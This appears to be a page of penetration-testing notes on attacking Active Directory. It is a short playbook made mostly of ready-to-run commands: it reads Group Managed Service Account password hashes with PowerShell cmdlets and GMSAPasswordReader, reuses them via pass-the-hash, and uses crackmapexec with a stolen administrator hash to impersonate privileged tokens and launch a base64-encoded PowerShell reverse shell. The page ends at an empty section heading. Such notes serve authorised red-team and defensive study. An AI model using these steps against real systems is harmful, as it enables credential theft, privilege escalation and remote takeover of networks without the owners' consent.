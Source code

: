 ## AbusingGroupManagedServiceAccounts

**Info**:
- [https://blog.netwrix.com/2022/10/13/group-managed-service-accounts-gmsa/](https://blog.netwrix.com/2022/10/13/group-managed-service-accounts-gmsa/)
- [https://www.thehacker.recipes/a-d/movement/dacl/readgmsapassword](https://www.thehacker.recipes/a-d/movement/dacl/readgmsapassword)
- "*BloodHound*" can detect this misconfiguration: "*Node Info*" > "*OUTBOUND OBJECT CONTROL*" > "*Group Delegated Object Control*"

**Tools**:
- ability to run the *cmdlets* of the [Active Directory PowerShell module](#PowershellADModule)
- an executable of [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader)

**Steps**:
1. check for the presence of "*Group Managed Service Accounts*" or "*gMSA*" accounts
	- `Get-ADServiceAccount -Filter *`
2. identify who can read the password of an "*gMSA*" account
	- `Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword`
	- **requirement**: user we have control of must be present as a user or group in "*PrincipalsAllowedToRetrieveManagedPassword*". If yes, we continue
3. (optional) identify which groups the user "*gMSA*" belongs to.
	- `Get-ADServiceAccount -Filter * -Properties memberof`
4. (optional) we use the script [gMSA_Permissions_Collection.ps1](https://gist.githubusercontent.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f/raw/714f6ec0a84a3e5ad6d6dffcf18bd56d1474ea26/gMSA_Permissions_Collection.ps1)(modify the variable `$target`) to see which AD objects have "Full Control", "Write All Properties" or "Write" privileges on the "*gMSA*" account
5. permission to be able to read the account password "*gMSA*" is checked
	- `Get-ADServiceAccount -identity "<gMSA name>" -Properties msds-ManagedPassword`
6. we obtain the hashes related to the account password "*gMSA*"
	- `.\GMSAPasswordReader.exe --AccountName "<gMSA name>"`
7. abusing new credentials via *Pass-The-Hash* (RC4 == hash NT)

## TokenImpersonation

**Requirements**:
- *local admin* user credentials of target machine (needed to dump LSASS)

**Steps**:
1. token enumeration - (**add `--local-auth` if you have *local admin* user credentials**)
	- `crackmapexec smb <IP TARGET> -u administrator -H <HASH NT Administrator> -M impersonate -o MODULE=list`
2. token impersonation of privileged user - (**add `--local-auth` if you have local *local admin* user credentials**)
	- `crackmapexec smb <IP TARGET> -u administrator -H <HASH NT Administrator> -M impersonate -o MODULE=exec TOKEN=<Primary token ID user> EXEC=whoami`
3. shell with privileged user - (**add `--local-auth` if you have *local admin* user credentials**)
	- `crackmapexec smb <IP TARGET> -u administrator -H <HASH NT Administrator> -M impersonate -o MODULE=exec TOKEN=<Primary token ID user> EXEC="powershell.exe -e <BASE64REVSHELL>"`

## AbusingActiveDirectoryCertificateServices
